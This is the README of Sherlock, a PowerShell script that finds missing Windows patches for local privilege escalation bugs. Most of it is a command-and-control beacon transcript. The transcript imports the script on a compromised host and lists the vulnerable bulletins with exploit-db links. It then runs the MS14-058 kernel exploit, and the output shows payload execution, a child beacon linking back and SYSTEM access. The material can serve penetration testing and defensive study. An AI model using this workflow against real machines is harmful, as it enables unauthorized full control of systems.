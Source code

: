 # Sherlock

PowerShell script to quickly find missing Microsoft patches for local privilege escalation vulnerabilities.

## Currently looks for:

* MS10-015 : User Mode to Ring (KiTrap0D)
* MS10-092 : Task Scheduler
* MS13-053 : NTUserMessageCall Win32k Kernel Pool Overflow
* MS13-081 : TrackPopupMenuEx Win32k NULL Page
* MS14-058 : TrackPopupMenu Win32k Null Pointer Dereference
* MS15-051 : ClientCopyImage Win32k
* MS15-078 : Font Driver Buffer Overflow
* MS16-016 : 'mrxdav.sys' WebDAV
* MS16-032 : Secondary Logon Handle
* CVE-2017-7199 : Nessus Agent 6.6.2 - 6.10.3 Priv Esc

## Tested on:

* Windows 7 SP1 32-bit
* Windows 7 SP1 64-bit
* Windows 8 64-bit
* Windows 10 64-bit

## Basic Usage:

```
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are Win7-x64\Rasta

beacon> powershell-import C:\Users\Rasta\Desktop\Sherlock.ps1
[*] Tasked beacon to import: C:\Users\Rasta\Desktop\Sherlock.ps1
[+] host called home, sent: 2960 bytes

beacon> powershell Find-AllVulns
[*] Tasked beacon to run: Find-AllVulns
[+] host called home, sent: 21 bytes
[+] received output:


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Appears Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

beacon> elevate ms14-058 smb
[*] Tasked beacon to elevate and spawn windows/beacon_smb/bind_pipe (127.0.0.1:1337)
[+] host called home, sent: 105015 bytes
[+] received output:
[*] Getting Windows version...
[*] Solving symbols...
[*] Requesting Kernel loaded modules...
[*] pZwQuerySystemInformation required length 51216
[*] Parsing SYSTEM_INFO...
[*] 173 Kernel modules found
[*] Checking module \SystemRoot\system32\ntoskrnl.exe
[*] Good! nt found as ntoskrnl.exe at 0x0264f000
[*] ntoskrnl.exe loaded in userspace at: 40000000
[*] pPsLookupProcessByProcessId in kernel: 0xFFFFF800029A21FC
[*] pPsReferencePrimaryToken in kernel: 0xFFFFF800029A59D0
[*] Registering class...
[*] Creating window...
[*] Allocating null page...
[*] Getting PtiCurrent...
[*] Good! dwThreadInfoPtr 0xFFFFF900C1E7B8B0
[*] Creating a fake structure at NULL...
[*] Triggering vulnerability...
[!] Executing payload...

[+] host called home, sent: 204885 bytes
[+] established link to child beacon: 192.168.56.105

[+] established link to parent beacon: 192.168.56.105
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
```